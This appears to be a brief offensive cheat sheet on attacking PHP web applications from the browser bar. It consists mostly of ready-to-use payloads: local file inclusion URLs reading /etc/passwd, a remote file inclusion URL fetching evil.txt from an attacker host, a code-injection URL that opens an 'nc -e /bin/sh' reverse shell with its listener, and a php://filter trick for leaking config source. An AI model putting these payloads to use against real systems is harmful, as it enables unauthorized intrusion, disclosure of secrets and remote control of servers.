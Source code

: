 ## Hacks for in the browser

To attempt to view the /etc/passwd file </b>
`http://host/index.php?page=./../../../../../etc/passwd%00`

### File Inclusions
```
# To check for LFI
http://target.com/?page=./../../../../../../../../../etc/passwd%00

# To check for RFI
http://target.com/?page=http://hackerip/evil.txt%00
---
### Obtaining Shell through Browser Bar (PHP)
```
# If you get similar to ?page=index in the browser bar
# In your attacking machine
nc -nlvp 441

# In the browser bar. Replace 10.11.1.139 with your attacking IP.
http://thedomain.com/index.php?page=index%27);${system(%27nc%20-e%20/bin/sh%2010.11.1.139%20441%27)};%23
```
### Accessing php files on the server through the browser bar
```
http://10.11.1.208/?page=php://filter/convert.base64-encode/resource=config

# The resultant code is base64 encoded and needs to be decoded with
echo thestringofcharactersyouweregivenfromabove | base64 --decode
```
